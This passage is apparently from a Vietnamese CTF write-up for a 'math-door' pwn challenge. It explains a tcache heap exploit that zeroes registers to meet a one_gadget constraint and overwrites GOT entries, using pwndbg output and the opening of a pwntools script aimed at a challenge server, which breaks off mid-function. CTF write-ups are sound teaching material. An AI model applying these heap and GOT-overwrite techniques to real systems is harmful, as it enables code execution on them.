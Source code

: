 Nên mình đoán, khi pop `tcachebin[0]` ra, ta luôn được `$rdx = *(QWORD *)(tcachebin[0]+0x10)`.

Mình muốn `$rdx=0` để thoả one_gadget thì phải ép  `*(QWORD *)(tcachebin[0]+0x10)=0`, tuy nhiên do chưa leak libc nên ta không biết phải cộng offset/trừ bao nhiêu cho nó bằng 0.

Để ý ở trên, ta có `*(QWORD *)(tcachebin[0]+0x8)=0`, mình đoán là do libc clear đi key của tcachebin trước khi pop.

Đây là chiến thuật mình nghĩ ra: 
```
got_target + 0x00|  .....  <--- tcachebin[1]
got_target + 0x08|  .....  <--- tcachebin[0]
got_target + 0x10|  .....
got_target + 0x18|  .....
got_target + 0x20|  .....
```
Đầu tiên khi pop `tcachebin[0]` ta sẽ được `*(QWORD *)(got_target + 0x10)=0` , khi pop `tcachebin[1]`, ta sẽ có `$rdx = *(QWORD *)(got_target + 0x10)=0` :D.

Giờ mình muốn `$rsi=0` để thoả mãn one_gadget `0xe3b04`, sau một hồi mò mẫm, mình thấy được đoạn code hữu ích.

```nasm
pwndbg> x/3i 0x7f0a75cd9deb
   0x7f0a75cd9deb <__libc_calloc+731>:	xor    esi,esi
   0x7f0a75cd9ded <__libc_calloc+733>:	call   0x7f0a75c60560 <*ABS*+0xa0540@plt>
   0x7f0a75cd9df2 <__libc_calloc+738>:	mov    r8,rax
pwndbg> x/2i 0x7f0a75c60560
   0x7f0a75c60560 <*ABS*+0xa0540@plt>:	endbr64 
   0x7f0a75c60564 <*ABS*+0xa0540@plt+4>:	bnd jmp QWORD PTR [rip+0x1c9bbd]        # 0x7f0a75e2a128 <*ABS*@got.plt>
pwndbg> x/a 0x7f0a75e2a128
0x7f0a75e2a128 <*ABS*@got.plt>:	0x7f0a75dc9b60 <__memset_avx2_unaligned_erms>
```

Vậy là cuối cùng ta chỉ cần ghi đè
```
got_calloc_call = one_gadget
got_puts_call =  __libc_calloc+731
```
Bạn có thể debug script của mình để rõ hơn:

```python
from pwn import *
from pwn import time
#pwndbg> x/3i 0x7f0a75cd9deb
#   0x7f0a75cd9deb <__libc_calloc+731>:	xor    esi,esi
#   0x7f0a75cd9ded <__libc_calloc+733>:	call   0x7f0a75c60560 <*ABS*+0xa0540@plt>
#   0x7f0a75cd9df2 <__libc_calloc+738>:	mov    r8,rax
#pwndbg> x/2i 0x7f0a75c60560
#   0x7f0a75c60560 <*ABS*+0xa0540@plt>:	endbr64 
#   0x7f0a75c60564 <*ABS*+0xa0540@plt+4>:	bnd jmp QWORD PTR [rip+0x1c9bbd]        # 0x7f0a75e2a128 <*ABS*@got.plt>
#pwndbg> x/a 0x7f0a75e2a128
#0x7f0a75e2a128 <*ABS*@got.plt>:	0x7f0a75dc9b60 <__memset_avx2_unaligned_erms>

e=ELF('./math-door')
libc=e.libc
if args.LOCAL:
    io = e.process()
elif args.REMOTE:
    io=remote("165.232.98.11",32017) #165.232.98.11:32017
def c(recv_newline=True):
    if recv_newline:
        io.sendlineafter(b'Action: \n', b'1')
    else:
        io.sendlineafter(b'Action: ', b'1')
def d(idx,recv_newline=True):
```